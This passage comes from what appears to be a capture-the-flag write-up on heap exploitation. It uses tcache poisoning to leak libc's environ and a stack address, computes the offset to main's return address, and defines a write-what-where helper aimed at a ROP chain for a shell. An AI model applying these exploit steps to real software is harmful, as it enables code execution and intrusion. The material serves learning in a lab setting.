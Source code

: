 Now chunk 1 `0x2c0` points to the address we wrote.. 

When we allocate a new chunk of size < 0x20, the tcache will give us the chunk at the top (`0x2c0`), and put the next chunk `0x57a7e0f113b0` as first chunk. The following allocation would then return `0x57a7e0f113b0`, enabling us to read or write to/from this area.

Let's try this with an actual address. We have leaked libc, so let's try to read `environ`. This is symbol in libc it's good to know about as it contains a pointer to the environment variables that are placed at the end of the stack area. Thiis enables us to attack the stack next.

```python
Write(1, p64((libc.sym.environ)^value_0)) 
Malloc(0)
Malloc(0)
View(0)
environ = u64(io.recvline().strip().ljust(8,b'\0'))
log.info(f"environ @ { hex(environ) }")
```

Output:

```
[*] environ @ 0x7fffffffe678   
```
```
gef_  tele 0x7fffffffe678
0x007fffffffe678│+0x0000: 0x007fffffffe89b  _  "SHELL=/bin/bash"
0x007fffffffe680│+0x0008: 0x007fffffffe8ab  _  "TERM_PROGRAM_VERSION=3.2a"
0x007fffffffe688│+0x0010: 0x007fffffffe8c5  _  "TMUX=/tmp/tmux-0/default,16,0"
```

Looks like we successfully leaked the stack.

To find the address of the return pointer of main, I set a breakpoint in main and do

```
gef_  p $rbp
$7 = (void *) 0x7fffffffe550
```

Return instruction pointer is 8 bytes (one 64bit word) after RBP, which gives:

RIP = RBP + 8 = 0x7fffffffe558

The diff between Environ and RIP is 0x7fffffffe678 - 0x7fffffffe558 = 0x120

so by subtracting 0x120 from the environ address we leaked, we should be able to find the return instruction pointer and hopefully write a ROP chain to get shell, even with ASLR enabled.

### Write What Where Who Why When ?

We probably need to write several times since the edit size limit is 0x10. Let's make a function out of the steps we just did, but change the `View` to a `Write`

```python
def WWW(Where, What):
    Malloc(0)
    Malloc(1)
    Free(0)
    Free(1)
    Write(1, p64(Where^value_0))
    Malloc(0)
    Malloc(0)
    Write(0, What)
```
